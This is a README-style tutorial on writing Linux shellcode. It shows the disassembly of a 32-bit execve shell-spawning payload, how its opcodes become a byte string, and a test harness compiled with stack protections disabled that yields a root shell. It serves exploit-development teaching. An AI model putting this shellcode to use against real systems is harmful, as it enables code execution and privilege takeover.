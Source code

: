 # Shellcode

- [Tutorial to write a simple shellcode (FR)](http://www.bases-hacking.org/afficher-shell.html)
- [Shellcodes Database](http://shell-storm.org/shellcode/)
- [Security related Youtube channel](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w/videos)

## Overview

> In my opinion, the best way to create your own shellcode is to code in assembly. This way you can execute precisely the instructions that you want, and you can use differents tricks to avoid NULL bytes.

- Since you have written your assembly code, you have to compile it to generate an object file from which you will get the operation codes. Some scripts exist to easily extract the op codes from an object file, maybe I will try some and put a link here, or write my own. Meanwhile, I let you handle this part :-)

## From assembly to shellcode

- You have written some awesome assembly code which spawn a shell as root, rm -rf the entire file system and make the coffee in less than 42 bytes ? Good ! Now you need to get the op codes.

/!\ The following example covers a 32-bits ELF architecture, you'll need to adapt the commands to the one of the binary in which you want to use your shellcode.

```console
$ nasm -f elf execve_sh_32bits.asm
$ objdump -d -M intel execve_sh_32bits.o

execve_sh_32bits.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:	eb 16                	jmp    18 <_str>

00000002 <_shspawn>:
   2:	31 c0                	xor    eax,eax
   4:	5b                   	pop    ebx
   5:	88 43 07             	mov    BYTE PTR [ebx+0x7],al
   8:	89 5b 08             	mov    DWORD PTR [ebx+0x8],ebx
   b:	89 43 0c             	mov    DWORD PTR [ebx+0xc],eax
   e:	b0 0b                	mov    al,0xb
  10:	8d 4b 08             	lea    ecx,[ebx+0x8]
  13:	8d 53 0c             	lea    edx,[ebx+0xc]
  16:	cd 80                	int    0x80

00000018 <_str>:
  18:	e8 e5 ff ff ff       	call   2 <_shspawn>

0000001d <sh_str>:
  1d:	2f                   	das
  1e:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
  21:	2f                   	das
  22:	73 68                	jae    8c <sh_str+0x6f>
```

- According to the output of `objdump`, you have to get the operation codes from top (`_start` label) to bottom and concatenate them, adding '\x' in front of each one to make them understandable by the machine as hexadecimal syntax instructions.

In this example, the shellcode will begin like this : `\xeb\x16\x31\xc0...` and so on.

## Checking

The last step is to check if your shellcode works as expected. To do so, you can use the 'code_tester.c' file attached in this repository. It will cast the shellcode provided as a function and execute it. Paste your shellcode in it, compile and run ! Do not forget to use the `-fno-stack-protector` and `-z execstack` flags in order to disable the compiler protections.

```console
$ gcc -fno-stack-protector -z execstack -m32 code_checker.c -o code_checker
$ ./code_checker
Length: 36
# whoami
root
```
